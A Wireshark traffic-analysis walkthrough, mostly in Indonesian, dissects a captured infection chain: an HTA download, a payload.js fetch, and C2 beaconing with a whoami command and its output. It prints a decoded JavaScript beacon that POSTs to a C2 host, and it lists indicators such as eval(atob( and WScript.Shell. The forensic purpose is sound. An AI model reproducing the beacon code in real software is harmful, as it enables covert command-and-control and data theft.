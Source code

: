 Paket List :

1	0.000000	192.168.1.50	198.51.100.20	TCP	54	51000 → 80 [SYN] Seq=0 Win=8192 Len=0
2	1.000000	198.51.100.20	192.168.1.50	TCP	54	80 → 51000 [SYN, ACK] Seq=0 Ack=1 Win=8192 Len=0
3	2.000000	192.168.1.50	198.51.100.20	TCP	54	51000 → 80 [ACK] Seq=1 Ack=1 Win=8192 Len=0
4	3.000000	192.168.1.50	198.51.100.20	HTTP	132	GET /malicious.hta HTTP/1.1 
5	4.000000	198.51.100.20	192.168.1.50	HTTP	545	HTTP/1.1 200 OK  (application/hta)
6	5.000000	192.168.1.50	198.51.100.20	TCP	54	51001 → 80 [SYN] Seq=0 Win=8192 Len=0
7	6.000000	198.51.100.20	192.168.1.50	TCP	54	80 → 51001 [SYN, ACK] Seq=0 Ack=1 Win=8192 Len=0
8	7.000000	192.168.1.50	198.51.100.20	TCP	54	51001 → 80 [ACK] Seq=1 Ack=1 Win=8192 Len=0
9	8.000000	192.168.1.50	198.51.100.20	HTTP	127	GET /payload.js HTTP/1.1 
10	9.000000	198.51.100.20	192.168.1.50	HTTP	428	HTTP/1.1 200 OK  (application/javascript)
11	10.000000	192.168.1.50	198.51.100.30	TCP	54	52000 → 80 [SYN] Seq=0 Win=8192 Len=0
12	11.000000	198.51.100.30	192.168.1.50	TCP	54	80 → 52000 [SYN, ACK] Seq=0 Ack=1 Win=8192 Len=0
13	12.000000	192.168.1.50	198.51.100.30	TCP	54	52000 → 80 [ACK] Seq=1 Ack=1 Win=8192 Len=0
14	13.000000	192.168.1.50	198.51.100.30	HTTP	186	POST /c2 HTTP/1.1  (application/x-www-form-urlencoded)
15	14.000000	198.51.100.30	192.168.1.50	HTTP	124	HTTP/1.1 200 OK  (text/plain)
16	15.000000	192.168.1.50	198.51.100.30	HTTP	197	[TCP Out-Of-Order] POST /c2 HTTP/1.1  (application/x-www-form-urlencoded)
17	16.000000	198.51.100.30	192.168.1.50	HTTP	94	HTTP/1.1 200 OK 


Detail paket :

1	0.000000	192.168.1.50	198.51.100.20	TCP	54	51000 → 80 [SYN] Seq=0 Win=8192 Len=0
		Artinya	: Host 192.168.1.50 memulai koneksi TCP ke port 80 pada server 198.51.100.20. Flag = SYN (synchronise) berarti awal handshake.
		

2	1.000000	198.51.100.20	192.168.1.50	TCP	54	80 → 51000 [SYN, ACK] Seq=0 Ack=1 Win=8192 Len=0
		Artinya	: Server menjawab SYN+ACK — part kedua dari 3-way handshake. Ack=1 berarti mengakui SYN (seq+1).

3	2.000000	192.168.1.50	198.51.100.20	TCP	54	51000 → 80 [ACK] Seq=1 Ack=1 Win=8192 Len=0	
		Artinya	: Client menyelesaikan handshake dengan ACK. Sekarang koneksi terbuka,
			  Selanjutnya HTTP akan lewat koneksi ini (socket 192.168.1.50:51000 ↔ 198.51.100.20:80).

4	3.000000	192.168.1.50	198.51.100.20	HTTP	132	GET /malicious.hta HTTP/1.1 
		Artinya	: HTTP request GET. Panjang 132 bytes (ini ukuran frame pada capture).
			  Biasanya berisi header: GET /malicious.hta HTTP/1.1, Host: ..., User-Agent, Accept, dll.

		Action	: 1. Expand Hypertext Transfer Protocol di Packet Details → lihat Request Method, Request URI, Host, User-Agent.
			  2. Catat User-Agent (apakah browser atau mshta/wscript?). mshta user-agent bisa menandakan HTA dieksekusi dengan mshta.exe.
			  3. Catat Referer, cookies, any query params.

5	4.000000	198.51.100.20	192.168.1.50	HTTP	545	HTTP/1.1 200 OK  (application/hta)
		Artinya	: Server menjawab dengan HTTP/1.1 200 OK; Content-Type application/hta. Ukuran frame 545 bytes — pasti mengandung body (HTA content).
		
		Action	: 1. Di Packet Details: expand HTTP → lihat header Content-Type, Content-Length, Server, Cache-Control, Last-Modified.
			  2. Follow → TCP Stream pada koneksi ini untuk mengekstrak body HTA. Simpan body (File → Export Objects → HTTP) untuk analisis offline.
			  3. Di body HTA cari: <script> tags, eval(atob(, WScript.Shell, CreateObject("Wscript.Shell"), pemanggilan mshta inline, atau referensi ke payload.js.

6	5.000000	192.168.1.50	198.51.100.20	TCP	54	51001 → 80 [SYN] Seq=0 Win=8192 Len=0
		Artinya	: Victim membuka koneksi TCP baru (ephemeral port 51001) ke server:80. Ini tipikal saat browser/mshta membuat koneksi lain u/ memfetch resource (mis. /payload.js).
		
		Action	: apakah ada pipelining/keep-alive vs koneksi baru; jika server tidak mendukung keep-alive atau mshta requests made in separate sockets.

7	6.000000	198.51.100.20	192.168.1.50	TCP	54	80 → 51001 [SYN, ACK] Seq=0 Ack=1 Win=8192 Len=0
8	7.000000	192.168.1.50	198.51.100.20	TCP	54	51001 → 80 [ACK] Seq=1 Ack=1 Win=8192 Len=0
		Artinya	: Handshake Complete

9	8.000000	192.168.1.50	198.51.100.20	HTTP	127	GET /payload.js HTTP/1.1 
		Artinya	: Victim requests JavaScript resource payload.js. Ukuran 127 bytes (header only).

		Action	: sama seperti paket 4 — lihat Host, User-Agent (mshta?), Accept, referer (mengarah ke /malicious.hta), Connection: keep-alive etc.
10	9.000000	198.51.100.20	192.168.1.50	HTTP	428	HTTP/1.1 200 OK  (application/javascript)
		Artinya	: Server returns JS body (Content-Type application/javascript). Body akan mengandung
			  obfuscated JS (mis. eval(atob('<base64>'))) atau XHR routines. Ukuran cukup besar (428 bytes) ->
			  
		Action	: 1. Follow → TCP Stream (for the 51001↔80 stream) and extract payload.js.
			  2. Jika JS contains eval(atob('...')), salin base64 and decode.
			  3. Cari in decoded JS: XHR/fetch calls to C2 (/c2), beacon ids, user-agent spoofing, timing/interval functions.
			  4. hasil decode "function beacon(){var xhr=new XMLHttpRequest();xhr.open('POST','http://198.51.100.30/c2',false);
					   xhr.setRequestHeader('Content-Type','application/x-www-form-urlencoded');xhr.send('beacon_id=abc123');}
					   beacon();"	

11	10.000000	192.168.1.50	198.51.100.30	TCP	54	52000 → 80 [SYN] Seq=0 Win=8192 Len=0
		Artinya	: Victim sekarang membuka konkesi ke C2 server 198.51.100.30 melalui port 80 (new handshake). di triggered oleh payload.js (beacon).

		Action	: cek DNS resolution untuk 198.51.100.30 earlier? (Check DNS queries di pcap). jika C2 menggunakan domain, note mapping. 
			  cek juga TTL and MACs.

12	11.000000	198.51.100.30	192.168.1.50	TCP	54	80 → 52000 [SYN, ACK] Seq=0 Ack=1 Win=8192 Len=0
		Artinya	: server replies SYN+ACK.

13	12.000000	192.168.1.50	198.51.100.30	TCP	54	52000 → 80 [ACK] Seq=1 Ack=1 Win=8192 Len=0
		Artinya : Connection established to C2. Now application data (HTTP POST) will follow.

14	13.000000	192.168.1.50	198.51.100.30	HTTP	186	POST /c2 HTTP/1.1  (application/x-www-form-urlencoded)
		Artinya	: Victim posts data ke /c2. Payload type urlencoded — likely beacon_id=abc123 atau yang mirip. Size 186 bytes includes headers + body.

		Action	: 1. Follow → TCP Stream for this TCP connection and view the POST body. Di Wireshark, 
			     expand HTTP → check Line-based text data for POST body.
			  2. Catat Host header (controller.example?), User-Agent, Referer (bisa jadi original HTA host), Content-Length.
			  3. save the POST body (it may contain victim id, OS info, or other metadata). This is direct C2 communication.

15	14.000000	198.51.100.30	192.168.1.50	HTTP	124	HTTP/1.1 200 OK  (text/plain)
		Artinya	: C2 merespon dengan plaintext body — contoh seperti whoami. Size 124 bytes termasuk headers & body.
		
		Action	: Follow TCP stream u/ lihat detail. 
			  Jika detail terdapat whoami, ini adalah perintah agar dapat di eksekusi oleh JS (synchronous XHR).	
				whoami
				output=DOMAIN%5Cvictim_user
				HTTP/1.1 200 OK
				Content-Length: 2

16	15.000000	192.168.1.50	198.51.100.30	HTTP	197	[TCP Out-Of-Order] POST /c2 HTTP/1.1  (application/x-www-form-urlencoded)				
		Artiya	: 1. TCP Out-Of-Order di Wireshark berarti Wireshark menerima paket dengan sequence number yang
			     tidak cocok dengan yang diharapkannya sekarang — contoh: Wireshark sudah menerima paket
			     dengan seq N+X, lalu menerima paket dengan seq N (lebih kecil), atau paket tiba lebih lambat
			     sehingga urutan capture berbeda dari urutan transmisinya. Penyebab umum:
			     a. Paket retransmission dari host karena ACK hilang.
			     b. Jaringan mengalami reordering (multi-path routing).
			     c. Duplikasi atau capture artifact (capture point sees packets via two interfaces).	

			 2. Paket 16 adalah POST lagi (kemungkinan berisi output dari eksekusi perintah whoami,
			    atau POST kedua dengan hasil). Karena ada POST sebelumnya (paket 14), paket 16 bisa:
			    a. retransmit dari victim karena ACK sebelumnya belum diterima/sampai; atau
			    b. permintaan baru yang dikirim segera setelah menerima command; namun label Out-Of-Order menunjukkan seq/ack tidak runtun menurut Wireshark.

17	16.000000	198.51.100.30	192.168.1.50	HTTP	94	HTTP/1.1 200 OK 
		Artinya	: C2 mengakui POST terakhir; final 200 OK
			  Cek Body u/ konfirmasi OK.


langkah-Langkah Cek di wireshark :

		1.	ip.src == 192.168.1.50 && ip.dst == 198.51.100.20 && http
		2.	TCP streams (right-click → Follow → TCP Stream) dan simpan body (Save as).
		3.	Extract Hta/Js : Menu File → Export Objects → HTTP → cari entry /malicious.hta dan /payload.js → Save.
					 ika JS berisi eval(atob('...')) → copy base64 string → decode:
		4.	Periksa C2 POST bodies: 
						ip.addr==192.168.1.50 && ip.addr==198.51.100.30 && http.request.method == "POST"
			Follow TCP Stream untuk melihat form body (beacon_id=..., output=...) dan server responses.
		5.	Analisa Out-Of-Order:
						Pilih packet 16 → Packet Details → TCP → lihat Seq/Ack.
						Gunakan Analyze → Expert Information untuk melihat apakah Wireshark menandai 
								  Retransmission/Out-of-Order/Duplicate ACK.						 

